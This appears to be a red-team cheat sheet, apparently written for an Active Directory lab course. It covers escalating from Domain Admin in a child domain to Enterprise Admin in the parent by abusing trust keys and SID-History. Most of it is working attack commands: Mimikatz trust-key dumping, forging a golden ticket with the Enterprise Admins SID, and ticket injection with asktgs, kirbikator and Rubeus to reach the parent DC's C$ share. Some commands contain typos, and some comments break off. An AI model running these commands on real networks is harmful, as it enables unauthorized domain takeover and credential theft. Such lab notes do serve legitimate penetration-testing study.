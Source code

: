 
### Child to Parent using Trust Tickets
```powershell
# In a trust  between child and parent, it's possible to move from DA in the child domain to DA in parent domain.
# The trust was initially done by exchanging a trust key between parent and child.

# When a user in the child domain requires a resource in parent domain:
# - The user authenticates to the child Domain controller and gets the TGT
# - The user request a TGS for the resource presenting the TGT
# - The child KDC replies with an inter-realm TGT encrypted with the trust key  (if the resource were in the same domain it would a TGS encrypted by the SPN hash (Kerberoasting))
# - The user ask a TGS to the KDC in the parent domain sending its inter-realm TGT, which replies with a TGS for the resource in the parent domain that the user can use.
# The whole security in this process is in the trust key which is used to sign the inter-realm TGT

# Foreword on SID-History:
# Microsoft introduced aa feature named SIDHIstory to help migration of AD objects from a domain to another.
# Basically it's an additional information in the AD that holds the past SIDs of an object in previous domains.
# After a migration of an object from a domain A to domain B, the object in domain B also contains the SID previously used in the domain A, so the object can identify itself to domain A

# Attacking scenario (Domain admin in the child domain is required)
# The idea is to leverage SID-History of the child domain user.
# 1. Get the trust key with mimikatz in the child domain
# 2. Forge a golden ticket that includes in the SID-HIstory the SID of the "Enterprise Admin" group (RID is 519) of the parent domain (<SID of parent domain>-519)
# 3. Use the golden ticket for PTT and access the parent domain

# First step is to extract the trust key from the child (which is compromised) using on of the three methods below. Which key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadumd::dcsync /user:dcorp\mcorp$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# There are multiple keys (different timestamp)
# Choose the most recent ([ In ]) 


# The key to be extracted must be
# Generate the Golden ticket using
# /sid: SID of the child domain
# /sids: SID of the parent domain "Enterprise admins group" (forged Sid-History)
# /rc4:  trust key in rc4 format
# /target: parent domain name
# /ticket: the arget file to store the golden ticket
BetterSafetyKatz "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:<hash> /service:krbtgt /target:moneycorp.local /ticket:C:\<directory>\trust_tkt.kirbi" "exit"

# Get a TGS for CIFS service using the golden ticket (asktgs) and inject it(kirbikator)
asktgs.exe C:\<directory>\trust_tkt.kirbi CIFS/mcorp-dc.corporate.local
kirbikator.exe lsa .\CIFS.mcorp-dc.corporate.local.kirbi

# Alternatively use Rubes in one 
Rubeus.exe asktgs /ticket:C:\<directory>\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt

# profit with
ls \\mcorp dc.corporate.local\c$

# Obviously this can ba done also for HTTP, HOST, RPCSS services to access various services.
```